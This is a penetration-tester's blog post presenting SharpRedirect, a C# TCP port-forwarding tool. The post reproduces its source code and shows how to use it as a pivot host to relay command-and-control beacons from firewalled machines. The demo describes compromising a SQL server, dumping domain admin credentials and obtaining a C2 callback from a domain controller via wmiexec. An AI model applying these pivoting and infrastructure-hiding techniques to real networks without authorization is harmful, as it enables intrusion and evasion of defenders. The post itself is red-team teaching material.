

# Redirecting Traffic From Windows via SharpRedirect 


## Intro

As penetration testers, we constantly find ourselves battling for discretion and efficiency in our operations. The ability to mask infrastructure or move through networks seamlessly is a necessity. Enter **SharpRedirect**, a C# tool I’ve developed to simplify redirection in a way that’s both practical and powerful. In this blog post, we’ll dive into the utility of traffic redirection during penetration testing and red teaming operations, and I’ll provide a detailed analysis of SharpRedirect to help you understand why and when it might be useful.

If you enjoy watching a video instead of reading, feel welcomed to my channel where I already posted a video about SharpRedirect:

[!embed](https://youtu.be/Uvu5JSz-14Q)

Do not forget to join the Red Teaming Army's Discord server where we share knowledge, experience, and debug together in real time: [https://discord.gg/bgSpdheEgu](https://discord.gg/bgSpdheEgu)

## Why Redirection?
Redirection plays a pivotal role in obfuscating the true origin of your infrastructure. Whether you’re conducting a phishing campaign, running a command and control (C2) server, or simply need to maintain persistence in a network, redirectors can be quite handy. By routing traffic through intermediary points, you add layers to your infrastructure, complicating detection efforts for defenders. Redirection also aids in bypassing firewalls or network restrictions by using trusted intermediary systems to forward traffic to its intended destination. One such example is to host your redirector on Azure infrastructure.

In scenarios where operational security (OPSEC) is critical, redirection tools help disguise your infrastructure. They give you the flexibility to relocate services dynamically, ensuring your actual backend remains hidden while still serving requests.

Essentially, the redirection process can be visualized works like that:



## External Redirections vs Internal Redirections

As penetration testers, understanding and leveraging redirection techniques is vital for stealth and access management. Let’s break down the difference between **external redirections** and **internal redirections**, emphasizing their practical use cases in offensive operations.

### External Redirections
External redirections are primarily used to **obfuscate the true infrastructure** during phishing campaigns or while handling Command and Control (C2) traffic. They rely on redirector servers, often hosted in the cloud or on dedicated virtual machines, that sit between the target and the actual malicious infrastructure. This adds a layer of anonymity and resilience by masking the origin of traffic, making attribution harder for defenders. For example:

- A phishing email directs users to a domain that appears legitimate but redirects traffic to the attacker’s C2 infrastructure.
- C2 beacons route through an external redirector, obscuring the backend server’s real IP address and making takedown efforts challenging.

In short, external redirections act as a **traffic shield**, protecting your infrastructure while maintaining operational flexibility.


### Internal Redirections

Internal redirections address a different challenge: **enabling access to machines within protected networks** that lack outbound internet connectivity. These redirections leverage compromised machines inside the target network to act as intermediaries. Traffic from isolated systems is forwarded through an internal pivot host, which then connects to the C2 infrastructure. Practical scenarios include:

- A machine in a restricted subnet that cannot directly communicate externally routes its traffic through a compromised host with internet access.
- Internal redirection bridges the gap between segmented or air-gapped environments and your external C2 framework.

In essence, internal redirections are a **bridge for constrained environments**, enabling continuous access and exfiltration despite strict network policies.

Mastering both external and internal redirection techniques ensures operational success while minimizing exposure and maximizing persistence in hostile or monitored environments.


This diagram demonstrates a network scenario where **outbound traffic restrictions** (red arrows) and **permitted outbound paths** (green arrows) dictate the flow of data within a protected environment. 

The red arrows represent **blocked outbound traffic**, indicating that some machines in the network are restricted from directly connecting to external servers (e.g., the Command and Control (C2) infrastructure). This is typical in high-security environments to prevent unauthorized data exfiltration or malicious communications

The green arrows illustrate **permitted network paths** where outbound traffic is allowed. In this case:

- **Victim 2** acts as a **pivot point** since it has permission to connect externally to the C2 server.
- Both **Victim 1** and **Victim 3** can route their traffic through Victim 2 using internal redirection techniques, enabling them to bypass their outbound restrictions and establish communication with the C2 server.

This is what SharpRedirect is designed for. Most of the redirectors I used before were Linux based and thus, it might be a little challenging to do internal redirections as mentioned above. This created the idea for SharpRedirect and here we are.

## Introducing SharpRedirect

SharpRedirect is a lightweight, easy-to-use C# tool designed for seamless traffic redirection. The tool redirects TCP traffic from a local port to a specified remote host and port. It’s built for penetration testers and red teamers who need a reliable solution to hide infrastructure or reach networks more effectively.

### Technical Overview of SharpRedirect

Let’s break down the source code to understand how SharpRedirect operates and why it’s particularly useful in penetration testing.

1. **Main Entry Point** The program begins execution in the `Main` method. This method is responsible for parsing command-line arguments and validating them. It ensures the user provides exactly three arguments: the local port, the destination host, and the destination port.
    
    ```c#
    if (args.Length != 3)
    {
        Console.WriteLine("Usage: PortRedirector <localPort> <destinationHost> <destinationPort>");
        return;
    }
    ```
    
    The program then validates that the provided ports are valid integers. This step is crucial to prevent runtime errors caused by invalid inputs.
    
    ```c#
    if (!int.TryParse(args[0], out int localPort) || !int.TryParse(args[2], out int destinationPort))
    {
        Console.WriteLine("Error: Ports must be valid integers.");
        return;
    }
    ```
    
    Once validated, the arguments are passed to the `PortRedirector` class, which encapsulates the logic for handling traffic redirection.
    
2. **PortRedirector Class** The `PortRedirector` class is the heart of the application. It manages the TCP listener that accepts incoming connections and forwards them to the destination.
    
    - **Constructor** The constructor initializes the local port, destination host, and destination port. These values are stored as private fields for use throughout the class.
        
        ```c#
        public PortRedirector(int localPort, string destinationHost, int destinationPort)
        {
            _localPort = localPort;
            _destinationHost = destinationHost;
            _destinationPort = destinationPort;
        }
        ```
        
    - **Start Method** The `Start` method initializes a `TcpListener` on the specified local port and begins listening for incoming connections.
        
        ```c#
        _listener = new TcpListener(IPAddress.Any, _localPort);
        _listener.Start();
        _isRunning = true;
        ```
        
        The method then spawns a new task to handle incoming connections asynchronously. This design allows the application to accept multiple clients simultaneously without blocking the main thread.
        
        ```c#
        Task.Run(() => AcceptClients());
        ```
        
    - **AcceptClients Method** This method runs in a loop, accepting incoming TCP clients as long as the `_isRunning` flag is set to `true`. When a client connects, the method delegates traffic handling to the `HandleClient` method.
        
        ```c#
        private async Task AcceptClients()
        {
            while (_isRunning)
            {
                try
                {
                    var client = await _listener.AcceptTcpClientAsync();
                    Console.WriteLine("Client connected.");
                    _ = HandleClient(client);
                }
                catch (Exception ex)
                {
                    if (_isRunning)
                        Console.WriteLine($"Error accepting client: {ex.Message}");
                }
            }
        }
        ```
        
    - **HandleClient Method** This method establishes a connection to the destination host and port for each incoming client. Once connected, it forwards traffic in both directions using the `CopyStream` method.
        
        ```c#
        var forwardTask = CopyStream(sourceStream, destinationStream);
        var backwardTask = CopyStream(destinationStream, sourceStream);
        await Task.WhenAll(forwardTask, backwardTask);
        ```
        
        This bidirectional forwarding ensures that data can flow seamlessly between the source and destination.
        
3. **Stream Copying** The `CopyStream` method is a critical component of the redirection logic. It reads data from one stream and writes it to another in chunks, ensuring efficient data transfer.
    
    ```c#
    private async Task CopyStream(Stream input, Stream output)
    {
        try
        {
            byte[] buffer = new byte[8192];
            int bytesRead;
            while ((bytesRead = await input.ReadAsync(buffer, 0, buffer.Length)) > 0)
            {
                await output.WriteAsync(buffer, 0, bytesRead);
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error copying stream: {ex.Message}");
        }
    }
    ```
    
    The method uses a buffer to minimize the number of read/write operations, enhancing performance. It also includes error handling to gracefully handle interruptions in the data flow.
    
4. **Stop Method** The `Stop` method halts the listener and stops accepting new connections. This method is particularly useful for gracefully shutting down the application.
    
    ```c#
    public void Stop()
    {
        _isRunning = false;
        _listener?.Stop();
    }
    ```

Throughout the application, robust error handling ensures that unexpected issues do not crash the tool. For example, if a client disconnects unexpectedly or a network error occurs, the tool logs the error and continues operating.

```c#
catch (Exception ex)
{
    Console.WriteLine($"Error handling client: {ex.Message}");
}
```

This focus on reliability makes SharpRedirect suitable for real-world scenarios where network conditions may be unpredictable.

### Practical Usage

Using SharpRedirect is straightforward. Suppose you want to redirect traffic from `localhost:8080` to a remote C2 server at `c2.example.com:443`. You would execute the following command:

```
SharpRedirect.exe 8080 c2.example.com 443
```

The tool immediately starts listening on port 8080 and forwards incoming traffic to the specified destination. This setup is particularly useful in situations where network constraints prevent direct communication with the target host.

Additionally, the SharpRedirect tool can be also executed via any `execute-assembly` C2 module. This allows you to redirect traffic and compromise new machines without the need to ever leave the C2 framework.

!!!
When setting up redirection for your penetration testing operations, it is **critical** to ensure your payloads are configured to communicate with the **redirector's IP address** rather than the original Command and Control (C2) server's IP.
!!!

### Demo

To showcase the tool I have prepared the following lab setup:


In this case I have compromised the SQL01 server which is allowed from the firewall to connect to outbound servers. I dumped credentials and found a valid DA pair. Trying to obtain a C2 callback from the DC fails since it is not allowed from the firewall for outbound communication. 

Let's start SharpRedirect on SQL01:

```powershell
.\SharpRedirect.exe 443 192.168.0.157 443
```


With the redirector setup now I need to generate new beacon with modified target host. During this demo I used Mythic C2 and my Haunt C2 Powershell Agent.


!!!
Here is the moment to say special thanks to my [Patreon Sponsors](https://www.patreon.com/Lsecqt). If you also have deeper appreciation for my work, feel free to support me and by doing so you will get access to my private packer (ShadowBurn), my private C2 Agent (Haunt) and more projects that I am sure you will find handy! Thank you once again!
!!!

After making all of the preparation and after executing the new PowerShell beacon via `wmiexec`, I receive the fully functioning C2 callback.


## Conclusion

By leveraging redirection, you gain the flexibility and stealth necessary to navigate challenging environments. Whether you’re evading detection, bypassing restrictions, or safeguarding your infrastructure, SharpRedirect empowers you to stay one step ahead.

If you’re interested in learning more about operational security techniques or want to see SharpRedirect in action, feel free to reach out or check out my related videos and tutorials. Happy redirecting!

If you're finding my content helpful and want to stay updated with more tutorials, tips, and insights into penetration testing, hacking infrastructure, and advanced techniques, make sure to **subscribe to my [YouTube channel](https://www.youtube.com/c/Lsecqt)**! Your support helps me create even more valuable content for the community. Let's master these skills together!